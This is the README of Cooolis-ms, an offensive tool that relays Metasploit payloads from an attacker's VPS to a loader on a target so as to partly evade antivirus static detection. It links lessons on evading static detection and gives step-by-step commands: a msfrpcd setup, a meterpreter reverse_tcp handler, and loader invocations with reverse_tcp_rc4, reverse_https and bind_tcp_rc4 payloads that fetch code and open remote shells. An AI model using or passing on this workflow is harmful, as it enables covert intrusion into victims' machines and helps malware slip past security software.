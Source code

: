 # Cooolis-ms

![README](./Pic/view-1.png)

Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。

加载器执行流程：连接Cooolis-Server，Cooolis-Server连接Metasploit RPC服务端，取回Payload然后发送回加载器

核心技术：
- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)


## 该项目的优点

- 体积小（>=100KB）
- 支持Metasploit所有Payload
- 参数设置方便
- 单文件
- 架构分离

## 你可以参考这里，写出自己的好项目

- [静态恶意代码逃逸（第一课）](https://payloads.online/archivers/2019-11-10/1)
- [静态恶意代码逃逸（第二课）](https://payloads.online/archivers/2019-11-10/2)
- [静态恶意代码逃逸（第三课）](https://payloads.online/archivers/2019-11-10/3)
- [静态恶意代码逃逸（第四课）](https://payloads.online/archivers/2019-11-10/4)
- [静态恶意代码逃逸（第五课）](https://payloads.online/archivers/2019-11-10/5)
- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)

## 如何安装


### Docker部署（推荐）

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms/Docker
$ docker-compose up -d
```

默认映射监听端口：8899

### 源码部署

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## 如何使用

假设这是我的VPS： 10.20.56.41

### 第一步 启动Metasploit RPC服务端

**启动Metasploit RPC服务端：**

```
$ msfrpcd -U msf -P msf -u /api/1.0/ -a 127.0.0.1
```

![](img/2020-08-05-11-53-35.png)

### 第二步 启动Cooolis-ms服务端

使得它连接到RPC，并且监听一个端口，用来发送载荷：

```
$ python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 8899 -S 10.20.56.41
```

![](img/2020-08-05-11-54-24.png)

### 第三步 配置Metasploit监听器


```
msf5 > use exploit/multi/handler
msf5 > set payload windows/meterpreter/reverse_tcp
msf5 > set LHOST  10.20.56.41
msf5 > set LPORT 8876
msf5 > exploit -j
```

![](img/2020-08-05-11-57-03.png)

### 第四步 启动Cooolis-ms客户端


```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp -s LHOST=10.20.56.41,LPORT=8876,Format=dll -H 10.20.56.41 -P 8899
```

![](img/2020-08-05-12-08-07.png)

Q&A : [是否支持RC4加密的Payload?](https://github.com/Rvn0xsy/Cooolis-ms/issues/6)

* windows/meterpreter/reverse_tcp_rc4：

```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp_rc4 -s LHOST=10.20.56.41,LPORT=8876,RC4PASSWORD=rc4_password,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter_reverse_https

```
Cooolis-ms.exe -p windows/meterpreter_reverse_https -s LHOST=10.20.56.41,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter/bind_tcp_rc4

```
Cooolis-ms.exe -p windows/meterpreter/bind_tcp_rc4 -s RHOST=10.20.56.11,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* ... 其他自行发挥


**注意：Cooolis-ms.exe的-s参数要与msf的配置对应。**

## 关于其他

如果你觉得这个项目不错，那就给一个Star～


## issue

[我要提交建议或问题](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
